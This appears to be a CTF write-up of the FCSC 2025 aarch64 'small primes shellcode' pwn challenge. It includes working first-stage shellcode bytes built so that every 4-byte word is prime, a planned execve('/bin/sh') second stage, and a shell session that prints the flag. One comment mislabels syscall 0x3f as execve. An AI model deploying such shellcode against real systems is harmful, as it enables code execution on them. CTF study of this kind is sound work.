



# Small primes shellcode

This challenge is the fifth most solved pwn challenge at the 2025 edition of the FCSC. The only provided resources are an address and port and the copy of the binary to exploit.

## Playing with the service

```
➜  05-small-primes-shellcode nc chal.fcsc.fr 2101
hello, world
Instruction #0 [opcode = 0x6c6c6568] is not prime.
^C
➜  05-small-primes-shellcode nc chal.fcsc.fr 2101
abcd
Instruction #0 [opcode = 0x64636261] is not prime.
^C
```

It seems that the program expects the first dword to be a prime number.

## Binary analysis

First, let's notice than as opposed to the previous challenges, the provided binary is for target `aarch64`.

```
➜  05-small-primes-shellcode readelf -h small-primes-shellcode 
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Position-Independent Executable file)
  Machine:                           AArch64
  Version:                           0x1
  Entry point address:               0x800
  Start of program headers:          64 (bytes into file)
  Start of section headers:          68872 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         9
  Size of section headers:           64 (bytes)
  Number of section headers:         29
  Section header string table index: 28
```

The binary has a single, small, main function. First, it allocates `0x400` bytes of memory with `RWX` protections.



Then, it reads `0x400` bytes from user input to the allocated memory area.



Finally, the program loops over every dword (4 bytes) of the input padded with zeros, and aborts if one of these dwords is not prime. Else, all registers are cleared and the given user input is executed.



### tl;dr

We need to provide an ARM shellcode where every dword is a prime number.

## Solving

To solve this challenge, I wrote a small Rust program to check if the shellcodes I built were respecting this condition. As for the `bigorneau` challenge, my strategy was split in two stages: a first (restricted) stage shellcode to read a second stage shellcode (most likely, as always, `execve("/bin/sh", NULL, NULL)` with NOP padding).

### First stage shellcode

With the help of this little tool, I proceeded to fiddle around to find the optimal sequence of instructions. The first stage needs to read from stdin to the `mmap`ed region to overwrite the currently executed instructions.

Simply put, this first-stage shellcode should look something like
```
mov x8, 0x3f            // 0x3f = execve syscall number for aarch64-linux
mov x0, 0               // stdin
ldr x1, [sp, 0x20]      // (mmaped region address is at [sp + 0x30 - 0x10])
mov x2, <big value>     // Number of bytes to read
svc <dontcare>          // Usually svc 0, but the immediate value is usually ignored
```

However, this shellcode is absolutely not meeting the requirements. Running the tool yields

```
Shellcode = [e8, 07, 80, d2, 00, 00, 80, d2, e1, 13, 40, f9, 02, 40, 80, d2, 01, 00, 00, d4] = \xe8\x07\x80\xd2\x00\x00\x80\xd2\xe1\x13\x40\xf9\x02\x40\x80\xd2\x01\x00\x00\xd4

Instructions: 
d28007e8 - [e8, 07, 80, d2] - 0x1000: mov x8, #0x3f - NOT PRIME
d2800000 - [00, 00, 80, d2] - 0x1004: mov x0, #0 - NOT PRIME
f94013e1 - [e1, 13, 40, f9] - 0x1008: ldr x1, [sp, #0x20] - NOT PRIME
d2804002 - [02, 40, 80, d2] - 0x100c: mov x2, #0x200 - NOT PRIME
d4000001 - [01, 00, 00, d4] - 0x1010: svc #0 - NOT PRIME
```

As can be seen, instructions like `mov x2, <something>` will never work because ARM instructions are 4-byte aligned and the target registers is stored in the least significant bits, which means the instruction will always be even.

To bypass this limitation, I made heavy use of the `ldp` and  `stp` ARM instructions. These instructions allow to load/store pairs of registers. By never setting the first of this pair of registers to an even one, we can achieve our goal.

After a few random tries, I finally came up with the following shellcode:

```
// Nasty trick to do a "mov x8, 0x3f"
mov x5, 0x3f
stp x5, x2, [sp]
ldp x11, x8, [sp, -0x8]

// Nasty trick to do a "ldr x1, [sp, 0x20]" (buf is at [sp + 0x30 - 0x10])
ldr x13, [sp, 0x20]
stp x13, x6, [sp]
ldp x1, x9, [sp]

// Nasty trick to do a "mov x2, 0x202"
mov x3, 0x202
stp x3, x2, [sp]
ldp x23, x2, [sp, -0x8]

// Nasty trick to do a "mov x0, xzr"
stp xzr, x10, [sp]
ldp x7, x0, [sp, -0x8]

// Put 0x13 to have a prime number (immediate is ignored)
svc 0x13
```

Running it with the tool yields
```
Shellcode = [e5, 07, 80, d2, e5, 0b, 00, a9, eb, a3, 7f, a9, ed, 13, 40, f9, ed, 1b, 00, a9, e1, 27, 40, a9, 43, 40, 80, d2, e3, 0b, 00, a9, f7, 8b, 7f, a9, ff, 2b, 00, a9, e7, 83, 7f, a9, 61, 02, 00, d4] = \xe5\x07\x80\xd2\xe5\x0b\x00\xa9\xeb\xa3\x7f\xa9\xed\x13\x40\xf9\xed\x1b\x00\xa9\xe1\x27\x40\xa9\x43\x40\x80\xd2\xe3\x0b\x00\xa9\xf7\x8b\x7f\xa9\xff\x2b\x00\xa9\xe7\x83\x7f\xa9\x61\x02\x00\xd4

Instructions: 
d28007e5 - [e5, 07, 80, d2] - 0x1000: mov x5, #0x3f - PRIME
a9000be5 - [e5, 0b, 00, a9] - 0x1004: stp x5, x2, [sp] - PRIME
a97fa3eb - [eb, a3, 7f, a9] - 0x1008: ldp x11, x8, [sp, #-8] - PRIME
f94013ed - [ed, 13, 40, f9] - 0x100c: ldr x13, [sp, #0x20] - PRIME
a9001bed - [ed, 1b, 00, a9] - 0x1010: stp x13, x6, [sp] - PRIME
a94027e1 - [e1, 27, 40, a9] - 0x1014: ldp x1, x9, [sp] - PRIME
d2804043 - [43, 40, 80, d2] - 0x1018: mov x3, #0x202 - PRIME
a9000be3 - [e3, 0b, 00, a9] - 0x101c: stp x3, x2, [sp] - PRIME
a97f8bf7 - [f7, 8b, 7f, a9] - 0x1020: ldp x23, x2, [sp, #-8] - PRIME
a9002bff - [ff, 2b, 00, a9] - 0x1024: stp xzr, x10, [sp] - PRIME
a97f83e7 - [e7, 83, 7f, a9] - 0x1028: ldp x7, x0, [sp, #-8] - PRIME
d4000261 - [61, 02, 00, d4] - 0x102c: svc #0x13 - PRIME
```

## Result

Let's run the orchestrating script

```
➜  05-small-primes-shellcode python expl.py 
[+] Opening connection to chall.fcsc.fr on port 2101: Done
[*] Switching to interactive mode
$ ls
flag.txt
small-primes-shellcode
$ cat flag.txt
FCSC{90d9b12e9ac63770408a90f8cec117b317356f5b40b238cffeeccc9e41eb88dd}
```
